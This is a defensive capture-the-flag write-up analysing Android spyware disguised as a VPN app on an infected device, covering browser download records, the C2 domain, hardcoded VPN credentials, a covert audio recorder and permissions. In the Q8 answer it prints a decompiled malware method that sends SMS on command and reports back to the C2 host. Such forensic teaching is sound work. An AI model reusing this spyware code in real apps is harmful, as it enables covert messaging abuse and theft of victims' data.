

# APT35 Lab

# Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [Questions](#questions)
- [Artifacts](#artifacts)
- [Lab Insights](#lab-insights)

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/apt35/](https://cyberdefenders.org/blueteam-ctf-challenges/apt35/)

Suggested tools: JADX, APK Studio, DB Browser for SQLite

Tactics: Initial Access, Execution, Collection, Command and Control

# Scenario

You receive an urgent notification from your cybersecurity team about a potential security breach involving a sophisticated threat group known as Magic Hound. This Iranian-sponsored group has been conducting cyber espionage operations targeting government officials, journalists, and organizations since 2014.

The incident involves a suspicious app that appears to be disguising itself as a VPN software on the Google Play Store. The app is designed to steal sensitive information, including call logs, text messages, contacts, and location data, from infected Android devices. While Google managed to quickly detect and remove the app from the Play Store, the threat is not entirely mitigated, as the group has been known to distribute similar spyware on other platforms even as recently as July 2021.

Your task is to analyze the infected Android device that may have been exposed to this spyware. You need to carefully examine the device to determine if the spyware app was indeed installed and assess the potential impact on the device's data and security. Using your expertise in cybersecurity and digital forensics, you'll be diving deep into the app's behavior and any artifacts left behind on the device to understand the scope of the attack.

# Questions

Q1- Which application was used to download the malware?

Answer: Firefox

Reason: Analysis: Firefox for Android, based on the Mozilla Android Components framework, splits browsing artifacts across two separate SQLite databases rather than one monolithic file as seen on desktop Firefox. The `places.sqlite` database, located at `data/data/org.mozilla.firefox/databases/places.sqlite`, still tracks general navigation through its `moz_places` table, and recorded a visit to `hxxps://www[.]mediafire[.]com/file/2cfgezykfzidn48/SaferVPN[.]apk/file`. This confirms the page was visited, but not that a file was retained on disk. That confirmation comes from a second, purpose-built database, `mozac_downloads_database`, located at `data/data/org.mozilla.firefox/databases/mozac_downloads_database`. 

Unlike desktop Firefox, which folds download metadata into `places.sqlite` via the `moz_annos` and `moz_anno_attributes` tables, Firefox for Android tracks the full download lifecycle in a dedicated `downloads` table. The relevant row shows a `file_name` of `SaferVPN.apk`, a `content_type` of `application/vnd.android.package-archive` confirming an installable Android Package Kit (APK), a `content_length` of `12322427` bytes, a destination folder of `Download.`

```bash
$ date -d @$((1690411644554/1000)) -u
Wed Jul 26 22:47:24 UTC 2023
```

Q2- When was the malware downloaded?

Answer: `2023-07-26 22:47`

Reason: Per `mozac_downloads_database`, established in Q1.

Q3- What is the package name of the malware?

Answer: `com.example.vpnner`

Reason: The directory `com.example.vpnner` was identified under `data/data/`, using a package namespace inconsistent with a legitimately published application, since `com.example` is the default placeholder prefix scaffolded by Android Studio and should never appear in a production release. This is supported by timeline correlation: the directory's `Modify` timestamp of `2023-07-26 23:43:11 UTC` falls approximately fifty-six minutes after the confirmed download timestamp of `2023-07-26 22:47:24 UTC` recorded in `mozac_downloads_database`, consistent with the user opening the downloaded `SaferVPN.apk` shortly after retrieval to trigger installation.

```bash
$ stat com.example.vpnner/
  File: com.example.vpnner/
  Size: 4096      	Blocks: 8          IO Block: 4096   directory
Device: 10301h/66305d	Inode: 541601      Links: 6
Access: (0700/drwx------)  Uid: ( 1000/  ubuntu)   Gid: ( 1000/  ubuntu)
Access: 2026-07-16 03:35:26.722258205 +0000
Modify: 2023-07-26 23:43:11.000000000 +0000
Change: 2023-08-02 12:26:06.573258656 +0000
 Birth: 2023-08-02 12:26:02.385239648 +0000

# APK file location
./media/0/Download/SaferVPN.apk
```

Q4- What is the C2 domain?

Answer: `cdsa.xyz`

Reason: Analysis: The Android Package Kit (APK) was decompiled in JADX and reviewed under the `com` package, specifically `com.example.vpnner`, since this is the malicious application's own namespace rather than an imported library. Inside this package, the `Constants` class defines a static field, `Domain`, hardcoded to `hxxp://cdsa[.]xyz`, alongside API path constants such as `Server_TargetLog`, `Server_Download`, and `Server_BigDownload`. A supporting method, `Send_BigData_By_Http`, in the `Functions` class confirms this domain is the active command and control (C2) endpoint in practice: it concatenates `Constants.Domain` with a passed API path to build the request URL, splits the outbound payload into one hundred thousand character chunks, and posts each chunk via `HttpURLConnection` over plaintext Hypertext Transfer Protocol (HTTP) rather than an encrypted transport, confirming both the domain's role and the lack of transport-layer protection on the exfiltration channel.




Q5- What is the VPN endpoint domain?

Answer: `westernrefrigerator.xyz`

Reason: The OpenVPN client configuration, `android.conf`, located at `data/data/com.example.vpnner/cache/android.conf`, is generated at runtime by the embedded `de.blinkt.openvpn` library from the stored `VpnProfile` object, and its presence confirms an actual VPN connection attempt occurred rather than mere installation. Grepping this file for the `remote` directive resolves the tunnel endpoint as `westernrefrigerator[.]xyz`, a domain distinct from the command and control (C2) domain identified in `Constants.Domain`, `cdsa[.]xyz`. This indicates the VPN functionality and the exfiltration channel operate on separate infrastructure, supporting the earlier scenario that the VPN tunnel serves as a genuine cover mechanism rather than being under the same operator's direct control as the data theft channel, though this remains based on domain separation alone and does not rule out both being attacker-affiliated infrastructure registered independently.

Q6- What is the VPN file password?

Answer: `VpNu$3R`

Reason: Analysis: In `MainActivity`, a `Server` object is instantiated with hardcoded constructor arguments: `new Server("United Kingdom", "server1.ovpn", "vpnuser2", "VpNu$3R")`. Cross-referencing the `Server` class constructor confirms parameter order maps to `country`, `ovpn`, `ovpnUserName`, and `ovpnUserPassword` respectively, confirming `VpNu$3R` as the hardcoded OpenVPN authentication password bundled directly in the application's source rather than retrieved securely at runtime.


Q7- What is the name of the recorded output file that the malware records?

Answer: `aaaa.mp3`

Reason: `RecorderService`, part of `com.example.vpnner`, extends `Service` to run covert audio recording without a UI. On `onStartCommand`, it configures a `MediaRecorder` with `setAudioSource(1)` (microphone), `setOutputFormat(2)` (MPEG-4), and `setAudioEncoder(3)` (AAC), writing output to a hardcoded path, `getPath() + "/aaaa.mp3"`. Despite the `.mp3` extension, the actual encoding is AAC in an MPEG-4 container, so the extension is cosmetic, likely to blend in during manual review. The service logs the associated phone number via `intent.getStringExtra("number")`, tying each recording to specific call activity, consistent with Magic Hound's known audio/call collection objectives. Maps to MITRE ATT&CK Mobile `T1429` (Audio Capture).


Q8- What function is responsible for sending SMS?

Answer: `SendSMSModule`

Reason: `SendSMSModule`, in the `Functions` class of `com.example.vpnner`, gives the malware remote SMS-sending capability under command and control (C2) direction. It first checks the `android.permission.SEND_SMS` permission via `PermissionChecker.checkSelfPermission`, logging a failure to `Constants.Domain` (`cdsa[.]xyz`) if absent. If granted, it parses a `;;`-delimited command string to extract destination number and message body, then dispatches via `SmsManager.getDefault().sendTextMessage()`, reporting success and completion status back to the C2 through `post_log`. This confirms the C2 channel supports remote-triggered SMS abuse, plausibly for premium-rate fraud, phishing propagation, or 2FA/OTP interception, with every execution outcome relayed to `cdsa[.]xyz`.

```java
    public String SendSMSModule(String str) throws MalformedURLException, UnsupportedEncodingException {
        if (PermissionChecker.checkSelfPermission(_context, "android.permission.SEND_SMS") != 0) {
            post_log(MAC, "Fail to Run Send SMS module because Don't have SEND_SMS Permission.", "Send SMS", "Fail", Constants.Domain);
            return "Fail";
        }
        post_log(MAC, "Successfully Run Send SMS module.", "Send SMS", "Success", Constants.Domain);
        SmsManager.getDefault().sendTextMessage(str.split(";;")[1], null, str.split(";;")[2], null, null);
        post_log(MAC, "Successfully Finish Send SMS module.", "Send SMS", "Success", Constants.Domain);
        return "Success Send SMS";
    }
```

Q9- How long was the malware idle on the system? (in minutes, ignore the fractional part)

Answer: 33

Reason: `app_idle_stats.xml`, under `/data/system/users/0/`, recorded `elapsedIdleTime="2029790"` for `com.example.vpnner`, measured in milliseconds against the boot-relative `elapsedRealtime` clock. Converting and truncating (`2029790 / 1000 / 60 = 33.83` → `33` minutes) gives the idle duration at capture time.

```bash
ubuntu@ip-172-31-27-63:~/Desktop/Start here/Artifacts/data/system/users/0$ grep -i vpn app_idle_stats.xml 
    <package name="com.example.vpnner" elapsedIdleTime="2029790" screenIdleTime="51741" lastPredictedTime="-13435" appLimitBucket="10" bucketReason="305" activeTimeoutTime="5629790" workingSetTimeoutTime="45225267" lastJobRunTime="1993246" />
```

Q10 - How many permissions were granted on request?

Answer: 5

Reason: `runtime-permissions.xml`, under `/data/system/users/0/`, shows the `com.example.vpnner` package block requesting 12 permissions, of which 5 carry `granted="true"`: `READ_SMS`, `READ_EXTERNAL_STORAGE`, `SEND_SMS`, `WRITE_EXTERNAL_STORAGE`, and `READ_CONTACTS`. This grant set aligns with the malware's confirmed capabilities: SMS read/send access supports the `SendSMSModule` C2 command handler, and storage read/write access supports writing `RecorderService`'s `aaaa.mp3` output. More invasive permissions, `RECORD_AUDIO`, `CAMERA`, `CALL_PHONE`, and both location permissions, were denied, limiting the operator's actual collection surface relative to what the app's code was built to request.

```xml
<pkg name="com.example.vpnner">
    <item name="android.permission.READ_SMS" granted="true" flags="b00" />
    <item name="android.permission.READ_CALL_LOG" granted="false" flags="b00" />
    <item name="android.permission.ACCESS_FINE_LOCATION" granted="false" flags="300" />
    <item name="android.permission.READ_EXTERNAL_STORAGE" granted="true" flags="b00" />
    <item name="android.permission.ACCESS_COARSE_LOCATION" granted="false" flags="300" />
    <item name="android.permission.SEND_SMS" granted="true" flags="b00" />
    <item name="android.permission.CALL_PHONE" granted="false" flags="300" />
    <item name="android.permission.CAMERA" granted="false" flags="300" />
    <item name="android.permission.WRITE_EXTERNAL_STORAGE" granted="true" flags="b00" />
    <item name="android.permission.RECORD_AUDIO" granted="false" flags="300" />
    <item name="android.permission.READ_CONTACTS" granted="true" flags="300" />
    <item name="android.permission.ACCESS_BACKGROUND_LOCATION" granted="false" flags="b00" />
</pkg>
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Delivery | Download vector | Firefox for Android |
|  | Source URL | hxxps://www[.]mediafire[.]com/file/2cfgezykfzidn48/SaferVPN[.]apk/file |
|  | Download DB | `data/data/org.mozilla.firefox/databases/mozac_downloads_database` |
|  | Download timestamp | `2023-07-26 22:47:24 UTC` |
|  | Downloaded file | `SaferVPN.apk` (`Download/` folder) |
| Package | Package name | `com.example.vpnner` |
|  | Install timestamp | `2023-07-26 23:43:11 UTC` |
|  | APK on-disk path | `media/0/Download/SaferVPN.apk` |
| C2 | Domain | cdsa[.]xyz |
|  | Protocol | hxxp (plaintext HTTP) |
|  | Constants class fields | `Server_TargetLog`, `Server_Download`, `Server_BigDownload` |
|  | Exfil chunking function | `Send_BigData_By_Http` (100,000-char chunks) |
| VPN Cover | VPN endpoint domain | westernrefrigerator[.]xyz |
|  | Config file | `data/data/com.example.vpnner/cache/android.conf` |
|  | OVPN profile | `server1.ovpn` |
|  | VPN username | `vpnuser2` |
|  | VPN password | `VpNu$3R` |
| Collection | Audio recording class | `RecorderService` |
|  | Recorded output file | `aaaa.mp3` |
|  | Audio source | `MediaRecorder.setAudioSource(1)` (MIC) |
|  | SMS-send function | `SendSMSModule` (`Functions` class) |
| Permissions | Granted (5) | `READ_SMS`, `SEND_SMS`, `READ_CONTACTS`, `READ_EXTERNAL_STORAGE`, `WRITE_EXTERNAL_STORAGE` |
|  | Denied (7) | `READ_CALL_LOG`, `ACCESS_FINE_LOCATION`, `ACCESS_COARSE_LOCATION`, `CALL_PHONE`, `CAMERA`, `RECORD_AUDIO`, `ACCESS_BACKGROUND_LOCATION` |
| Host Artifact | Idle-tracking file | `/data/system/users/0/app_idle_stats.xml` |
|  | Elapsed idle time | `2029790` ms (33 min, truncated) |
|  | Standby bucket | `appLimitBucket="10"` |
|  | Permission-state file | `/data/system/users/0/runtime-permissions.xml` |

# Lab Insights

- Mobile forensics splits truth across many small purpose-built stores, not one log. No single artifact told the full story — Firefox's browsing and download history live in two separate SQLite databases, while Android itself tracks package idle state and permission grants in yet another pair of XML files under /data/system/. The pattern across this lab is that Android forensics means correlating several narrow, single-purpose datastores rather than expecting a unified event log like on Windows.
- A default com.example package prefix is a free static-analysis tell. Android Studio scaffolds every new project with this placeholder namespace, and any production APK still carrying it signals either an unfinished rebrand or a threat actor who didn't bother renaming the package before distribution — a low-effort, high-confidence indicator worth checking on any suspicious APK before diving into code.
- Requested capability rarely equals granted capability. The malware's code was built to request twelve dangerous permissions spanning SMS, contacts, storage, location, camera, and microphone, but the runtime-permissions artifact showed the user (or OS defaults) only granted five. Static analysis of a decompiled APK shows intent and capability, but the actual granted="true"/"false" state in runtime-permissions.xml is what defines the real-world impact — always check both.
- Cover infrastructure and C2 infrastructure can be cleanly separated by design. The VPN tunnel endpoint (westernrefrigerator[.]xyz) and the data-exfiltration C2 domain (cdsa[.]xyz) are distinct, unrelated-looking domains, reflecting a deliberate architecture where the "legitimate-looking" functionality and the malicious functionality don't share infrastructure — a technique that complicates domain-based detection if only the cover channel is monitored.